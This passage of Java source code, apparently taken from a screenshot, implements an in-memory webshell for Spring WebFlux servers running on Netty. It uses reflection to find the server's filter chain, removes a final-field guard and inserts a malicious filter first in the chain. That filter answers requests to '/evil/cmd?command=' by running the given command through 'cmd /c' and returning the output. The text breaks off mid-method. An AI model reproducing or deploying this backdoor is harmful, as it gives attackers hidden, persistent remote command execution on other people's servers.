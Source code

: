 ```bash
                if (thread != null && thread.getClass().getName().contains("NettyWebServer")) {
                    NettyWebServer nettyWebServer = (NettyWebServer) getFieldValue(thread, "this$0", false);
                    ReactorHttpHandlerAdapter reactorHttpHandlerAdapter = (ReactorHttpHandlerAdapter) getFieldValue(nettyWebServer, "handler", false);
                    Object delayedInitializationHttpHandler = getFieldValue(reactorHttpHandlerAdapter,"httpHandler", false);
                    HttpWebHandlerAdapter httpWebHandlerAdapter = (HttpWebHandlerAdapter) getFieldValue(delayedInitializationHttpHandler,"delegate", false);
                    ExceptionHandlingWebHandler exceptionHandlingWebHandler = (ExceptionHandlingWebHandler) getFieldValue(httpWebHandlerAdapter,"delegate", true);
                    FilteringWebHandler filteringWebHandler = (FilteringWebHandler) getFieldValue(exceptionHandlingWebHandler,"delegate", true);
                    DefaultWebFilterChain defaultWebFilterChain = (DefaultWebFilterChain) getFieldValue(filteringWebHandler,"chain", false);
                    Object handler = getFieldValue(defaultWebFilterChain, "handler", false);
                    List<WebFilter> newAllFilters = new ArrayList<>(defaultWebFilterChain.getFilters());
                    newAllFilters.add(0, new MemoryShellFilter());
                    DefaultWebFilterChain newChain = new DefaultWebFilterChain((WebHandler) handler, newAllFilters);
                    Field f = filteringWebHandler.getClass().getDeclaredField("chain");
                    f.setAccessible(true);
                    Field modifersField = Field.class.getDeclaredField("modifiers");
                    modifersField.setAccessible(true);
                    modifersField.setInt(f, f.getModifiers() & ~Modifier.FINAL);
                    f.set(filteringWebHandler, newChain);
                    modifersField.setInt(f, f.getModifiers() & Modifier.FINAL);
                }
            }
        } catch (Exception ignored) {}
    }

    public static Object getFieldValue(Object obj, String fieldName,boolean superClass) throws Exception {
        Field f;
        if(superClass){
            f = obj.getClass().getSuperclass().getDeclaredField(fieldName);
        }else {
            f = obj.getClass().getDeclaredField(fieldName);
        }
        f.setAccessible(true);
        return f.get(obj);
    }

    public Flux<DataBuffer> getPost(ServerWebExchange exchange) {
        ServerHttpRequest request = exchange.getRequest();
        String path = request.getURI().getPath();
        String query = request.getURI().getQuery();

        if (path.equals("/evil/cmd") && query != null && query.startsWith("command=")) {
            String command = query.substring(8);
            try {
                Process process = Runtime.getRuntime().exec("cmd /c" + command);
                BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream(), "GBK"));
                Flux<DataBuffer> response = Flux.create(sink -> {
                    try {
                        String line;
                        while ((line = reader.readLine()) != null) {
                            sink.next(DefaultDataBufferFactory.sharedInstance.wrap(line.getBytes(StandardCharsets.UTF_8)));
                        }
```
